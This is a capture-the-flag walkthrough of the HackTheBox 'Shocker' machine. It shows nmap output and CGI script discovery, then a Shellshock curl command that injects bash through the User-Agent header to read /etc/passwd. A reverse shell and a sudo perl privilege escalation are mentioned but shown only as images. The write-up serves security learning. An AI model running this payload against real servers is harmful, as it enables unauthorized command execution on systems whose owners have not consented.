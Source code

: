 # HackTheBox-Shocker

## NMAP

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:                                                           
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)                
|_http-title: Site doesn't have a title (text/html).                
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gp
NcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQq
qj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9K
AtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 (HTTP)

On the web server we only get a static html page

<img src="https://i.imgur.com/8O2skgK.png"/>

But there wasn't anything on this page , so after searching exploits for apache 2.4.18 , I saw a vulnerability called `shellshock`

<img src="https://i.imgur.com/jr3EQb4.png"/>

So maybe there's a folder `cgi-bin` on web server but on running `gobuster` and `dirsearch` it wasn't showing so I assumed it's on the webserver and I fuzz for files with the extensions `pl,rb,sh,py` 

<img src="https://i.imgur.com/hDewIfH.png"/>

We can see `user.sh` is in `cgi-bin` directory ,cgi-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. Common Gateway Interface (CGI) is a resource for accommodating the use of scripts in Web design. 

Now let's check if it's vulnerable to shellshock

```bash
 curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://10.10.10.56/cgi-bin/user.sh
```

<img src="https://i.imgur.com/1aPsX2v.png"/>

We can get a bash reverse shell

<img src="https://i.imgur.com/y0n9KwZ.png"/>

Now to escalate to a user , in this case we have only a root user to escalate to , we can check what we can run as sudo so in order to do that we'll run the command `sudo -l`

<img src="https://i.imgur.com/U4tkxxP.png"/>

We can run `perl` as root so let's visit GTFOBINS to see how we can abuse this

<img src="https://i.imgur.com/aJDG7Lf.png"/>

<img src="https://i.imgur.com/Pno3Xf4.png"/>